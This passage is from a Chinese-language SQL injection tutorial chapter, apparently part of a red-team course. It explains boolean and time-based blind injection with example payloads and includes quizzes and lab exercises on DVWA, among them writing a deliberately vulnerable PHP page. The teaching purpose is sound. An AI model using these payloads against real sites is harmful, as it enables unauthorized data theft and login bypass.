比如有个页面：
```
?id=1   → 正常显示
?id=1 and 1=1  → 正常
?id=1 and 1=2  → 页面空白或者显示错误
```

页面有两种状态，
这就是布尔盲注。

布尔盲注怎么用？
靠猜。

比如猜数据库名的第一个字母：
```sql
?id=1 and ascii(substring(database(),1,1)) > 97-- 
```
如果页面正常，说明第一个字母的ASCII码大于97（也就是大于'a'）。
继续猜：
```sql
?id=1 and ascii(substring(database(),1,1)) > 110-- 
```
如果页面异常，说明小于等于110（小于等于'n'）。

就这样一次次二分法猜，
最后猜出整个数据库名。

然后是表名、列名、数据...
都是这样猜。

你可以想象，
手动布尔盲注有多累。
所以一般都是用工具或者写脚本。

#### 时间盲注

如果连真假页面都没有，
不管输入什么页面都一样，
那怎么办？
可以用时间盲注。

时间盲注的原理是：
**用sleep()函数让数据库延迟执行，
通过观察页面响应时间来判断条件是否成立。**

比如：
```sql
?id=1 and if(1=1, sleep(5), 1)-- 
```
如果页面延迟了5秒才返回，说明`1=1`成立。

```sql
?id=1 and if(1=2, sleep(5), 1)-- 
```
如果页面秒回，说明`1=2`不成立。

这样就能判断真假了。

时间盲注比布尔盲注更慢，
但是适用场景更广。

> 💡 提醒：
> 盲注手工做太费时间了，
> 了解原理就行，
> 实际用的时候都是用工具（比如SQLMap）。
>
> 但是原理一定要懂，
> 不然工具用不好。

---

## ✏️ 课后习题

### 选择题

1. SQL注入产生的根本原因是？
   - A. 数据库有漏洞
   - B. 用户输入的数据被当成SQL代码执行
   - C. 网站用了PHP
   - D. 服务器不安全

2. 以下哪个不是SQL注入的危害？
   - A. 窃取数据库数据
   - B. 篡改数据
   - C. 让网站变卡
   - D. 获取服务器权限

3. 数字型注入判断，输入以下哪个会让页面异常？
   - A. `1 and 1=1`
   - B. `1 and 1=2`
   - C. `1 order by 1`
   - D. `1`

4. 判断查询结果有几列，用什么？
   - A. `GROUP BY`
   - B. `ORDER BY`
   - C. `UNION`
   - D. `HAVING`

5. MySQL中，用来查询所有数据库名的表是？
   - A. `information_schema.tables`
   - B. `information_schema.columns`
   - C. `information_schema.schemata`
   - D. `mysql.user`

6. 联合查询注入中，`UNION`前后的两个查询需要满足什么条件？
   - A. 列数相同，数据类型兼容
   - B. 表名相同
   - C. 数据库相同
   - D. 没有要求

7. 以下哪个函数可以用来报错注入？
   - A. `sleep()`
   - B. `extractvalue()`
   - C. `group_concat()`
   - D. `concat()`

8. 盲注分为哪两种？
   - A. GET盲注和POST盲注
   - B. 布尔盲注和时间盲注
   - C. 数字盲注和字符盲注
   - D. 显注和隐注

9. 时间盲注常用的函数是？
   - A. `sleep()`
   - B. `delay()`
   - C. `wait()`
   - D. `pause()`

10. 存储所有表名信息的表是？
    - A. `information_schema.schemata`
    - B. `information_schema.tables`
    - C. `information_schema.columns`
    - D. `information_schema.data`

### 填空题

1. SQL注入的本质是______和______没有分离。

2. SQL注入按返回结果分为______和______两大类。

3. 盲注分为______和______两种。

4. 判断查询结果列数用______。

5. 联合查询用______关键字。

6. MySQL 5.0以上，存储元数据的数据库叫______。

7. 查询所有数据库名的SQL：SELECT ______ FROM information_schema.schemata。

8. 查询当前数据库名的函数是______。

9. 把多行查询结果拼接成一行的函数是______。

10. 报错注入常用的两个函数是______和______。

### 简答题

1. 用自己的话说说，什么是SQL注入？

2. SQL注入产生的条件是什么？

3. 怎么判断一个参数有没有SQL注入？说说你的思路。

4. SQL注入有哪些分类？（至少说3种分类方式）

5. 联合查询注入的基本步骤是什么？

6. 什么是盲注？盲注有哪几种？

7. 什么是报错注入？原理是什么？

8. information_schema数据库有什么用？里面有哪些重要的表？

9. 数字型注入和字符型注入有什么区别？

10. 为什么说SQL注入危害很大？

### 实操题

1. DVWA练习：
   - 打开DVWA，难度选Low
   - 进入SQL Injection模块
   - 用手工注入的方式
   - 完成：判断注入 → 猜列数 → 找显示位 → 查库 → 查表 → 查列 → 查数据
   - 把所有步骤和结果记录下来

2. 登录框绕过练习：
   - 打开DVWA，难度选Low
   - 进入Brute Force模块
   - 试试用SQL注入的方式绕过登录
   - 看看能不能不用密码就登录成功

3. 报错注入练习：
   - 在DVWA上试试报错注入
   - 用extractvalue()或updatexml()函数
   - 查出数据库名、表名、列名、数据

4. 编写有漏洞的代码：
   - 自己写一个有SQL注入漏洞的PHP页面
   - 在本地搭建测试
   - 亲手测试注入，验证漏洞

5. 盲注体验：
   - 试试手工布尔盲注
   - 猜数据库名的前3个字符
   - 体验一下盲注有多慢
   - 理解为什么要用工具做盲注

---

## 📝 本章小结

这一章，
我们学习了SQL注入的基础知识。

总结一下重点：

1. **什么是SQL**
   - SQL是和数据库对话的语言
   - 增删改查：SELECT、INSERT、UPDATE、DELETE
   - 常用函数和information_schema数据库

2. **什么是SQL注入**
   - 用户输入的数据被当成SQL代码执行
   - 本质：代码和数据没有分离
   - 条件：参数可控 + 带入数据库查询
   - 危害：拖库、篡改、提权...

3. **SQL注入分类**
   - 按位置：GET、POST、Cookie、HTTP头...
   - 按数据类型：数字型、字符型
   - 按返回结果：显注（联合、报错）、盲注（布尔、时间）

4. **判断注入点**
   - 加单引号看报错
   - `and 1=1` / `and 1=2` 看页面变化
   - 判断是数字型还是字符型
   - 判断数据库类型

5. **联合查询注入步骤**
   - 判断注入点
   - ORDER BY猜列数
   - UNION SELECT找显示位
   - 查基本信息（库名、版本、用户...）
   - 脱库：库 → 表 → 列 → 数据

6. **其他注入类型**
   - 报错注入：extractvalue()、updatexml()
   - 盲注：布尔盲注、时间盲注

> 最后送你一句话：
> **"SQL注入说难不难，说简单也不简单。
> 原理很简单，
> 但是技巧很多。
> 先把原理搞懂，
> 再去练各种技巧。
> 基础打牢了，
> 后面学什么都快。"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day017-basic-基础篇总览)
- [➡️ 下一章：---](/redteam/day019-basic-SQL注入进阶)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
